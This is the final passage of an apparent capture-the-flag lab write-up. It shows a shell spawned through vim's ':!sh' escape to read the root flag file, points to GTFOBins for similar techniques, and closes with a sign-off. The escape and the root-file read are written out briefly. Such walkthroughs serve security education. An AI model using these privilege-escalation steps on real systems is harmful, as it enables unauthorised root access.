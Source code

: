 Yes, `vim` runs and there we go!

````commandline
:!sh
# cat /root/root.txt
wq**********YWRlcywgbcOhcXVpbmEgY29t**********E=
#
````

We have other possibilities, you can read more on [GTFOBins](https://gtfobins.github.io/) and try them out.

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
